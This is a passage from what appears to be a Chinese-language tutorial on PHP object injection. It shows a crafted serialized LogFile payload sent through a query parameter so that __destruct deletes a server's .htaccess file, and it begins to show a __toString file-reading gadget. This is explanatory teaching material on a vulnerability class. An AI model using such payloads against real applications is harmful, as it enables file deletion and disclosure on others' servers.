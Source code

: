 你看，这个代码调用了 “LogClass” 类，并且有一个 “unserialize” 值是我们可以注入的。

所以构造类似这样的东西：

```
script.php?usr_serialized=O:4:"User":2:{s:3:"age";i:20;s:4:"name";s:4:"John”;}

```

究竟发生了什么呢，因为输入是可控的，所以我们可以构造任意的序列化对象，比如：

```
<?php

$obj = new LogFile();
$obj->filename = '.htaccess';

echo serialize($obj) . '<br />';

?>

```

这个会输出

```
O:7:"LogFile":1:{s:8:"filename";s:9:".htaccess";} 
__destruct deletes ".htaccess" file.

```

现在我们将构造过后的序列化对象发送给刚才的脚本：

```
script.php?usr_serialized=O:7:"LogFile":1:{s:8:"filename";s:9:".htaccess”;}

```

这会输出

```
__destruct deletes ".htaccess" file.

```

现在 .htaccess 已经被干掉了，因为脚本结束时 __destruct会被调用。不过我们已经可以控制“LogFile”类的变量啦。

这就是漏洞名称的由来：变量可控并且进行了unserialize操作的地方注入序列化对象，实现代码执行或者其他坑爹的行为。

虽然这不是一个很好的例子，不过我相信你可以理解这个概念，unserialize自动调用 __wakeup 和 __destruct，接着攻击者可以控制类变量，并且攻击web程序。

0x06 常见的注入点
===========

* * *

先不谈 __wakeup 和 __destruct，还有一些很常见的注入点允许你利用这个类型的漏洞，一切都是取决于程序逻辑。

打个比方，某用户类定义了一个__toString为了让应用程序能够将类作为一个字符串输出（echo $obj） ,而且其他类也可能定义了一个类允许__toString读取某个文件。

```
<?php 

// … 一些include ...

class FileClass
{
    // 文件名

    public $filename = 'error.log';

    //当对象被作为一个字符串会读取这个文件

    public function __toString()
```